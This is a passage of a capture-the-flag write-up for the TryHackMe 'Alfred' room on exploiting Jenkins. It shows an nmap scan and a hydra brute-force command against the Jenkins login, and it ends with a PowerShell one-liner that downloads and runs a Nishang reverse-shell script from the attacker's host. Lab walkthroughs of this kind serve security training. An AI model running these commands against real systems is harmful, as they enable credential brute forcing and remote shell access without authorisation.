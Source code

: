 # Alfred

https://tryhackme.com/room/alfred

###Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.

## F3d3r!c0 | Nov 23th, 2020
_________________________________________________________

### [Task 1] Initial Access

![Alfred](https://i.imgur.com/OwWppVP.png)

In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made change to it). After which, we'll use an interesting privilege escalation method to get full system access.

Since this is a Windows application, we'll be using [Nishang](https://github.com/samratashok/nishang) to gain initial access. The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the [reverse shell scripts](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

Please note that this machine **does not respond to ping** (ICMP) and may take a few minutes to boot up.
_________________________________________________________

How many ports are open? (TCP only)

    $sudo nmap -A -T4 <Target_IP> -oN nmap_alfred

**Answer: 3**

What is the username and password for the log in panel(in the format username:password)

Brute form http-post-form using hydra:

Parameters for Hydra:

**URL:** /j_acegi_security_check
**USER** = j_username
**PASS** = j_password
**Port** = 8080
**Invalid login message** = Invalid username or password

    hydra -s 8080 <Target_IP> http-form-post “/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password” -L user.txt -P rockyou.txt -t 10 -w 30

**Answer: admin:admin**

Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
